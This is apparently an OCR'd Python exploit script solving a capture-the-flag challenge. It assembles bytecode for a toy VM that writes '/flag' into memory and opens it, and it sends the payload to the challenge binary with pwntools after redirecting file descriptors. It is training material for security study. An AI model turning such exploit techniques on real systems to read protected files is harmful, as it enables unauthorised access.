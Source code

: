 ```python

    b'\x03\{a}\{imm}', # imm a, 0x03
    b'\x2f\{b}\{imm}', # imm b, 0x2f
    b'\{b}\{a}\{stm}', # stm *a = b

    b'\x04\{a}\{imm}', # imm a, 0x04
    b'\x66\{b}\{imm}', # imm b, 0x66
    b'\{b}\{a}\{stm}', # stm *a = b

    b'\x05\{a}\{imm}', # imm a, 0x05
    b'\x6c\{b}\{imm}', # imm b, 0x6c
    b'\{b}\{a}\{stm}', # stm *a = b

    b'\x06\{a}\{imm}', # imm a, 0x06
    b'\x61\{b}\{imm}', # imm b, 0x61
    b'\{b}\{a}\{stm}', # stm *a = b

    b'\x07\{a}\{imm}', # imm a, 0x07
    b'\x67\{b}\{imm}', # imm b, 0x67
    b'\{b}\{a}\{stm}', # stm *a = b

    b'\x03\{a}\{imm}', # imm a, 0x03
    b'\x10\{b}\{imm}', # imm b, 0x10
    b'\x50\{c}\{imm}', # imm c, 0x50
    b'\{a}\{open}\{sys}', # open ---> return a 

    # b'\x10\{b}\{imm}', # imm b, 0x10
    # b'\x40\{c}\{imm}', # imm c, 0x40
    # b'\{a}\{read}\{sys}', # read(a, b, c) ---> return a

    # b'\x01\{a}\{imm}', # imm a, 0x01
    # b'\{a}\{write}\{sys}', # write(a, b, c) ---> return a

    # b'\x00\{a}\{imm}', # imm a, 0x00
    # b'\{a}\x02\{sys}', # exit(a)

]

payload_2 = b''.join(format_data_list(a=0x10,b=0x01,c=0x20,read=0x8,write=0x10,open_=0x1C,stm=0x20,imm=0x04, sys=0x08, jmp=0x80))
with open("/home/hacker/exploit/level10/bin", 'wb') as file:
    file.write(payload_2)
  

def redirect_fd():
    # os.dup2(1, 3)  # 将文件描述符 3 重定向到标准输出 (fd 1)
    # os.dup2(3, 0x39)  # 将文件描述符 3 重定向到标准输出 (fd 1)
    os.dup2(1, 0x39)  # 将文件描述符 3 重定向到标准输出 (fd 1)


p = process("/challenge/toddlerone_level10.0", preexec_fn=redirect_fd)
# 明确重定向文件描述符
p.send(payload_2)
p.interactive()

```

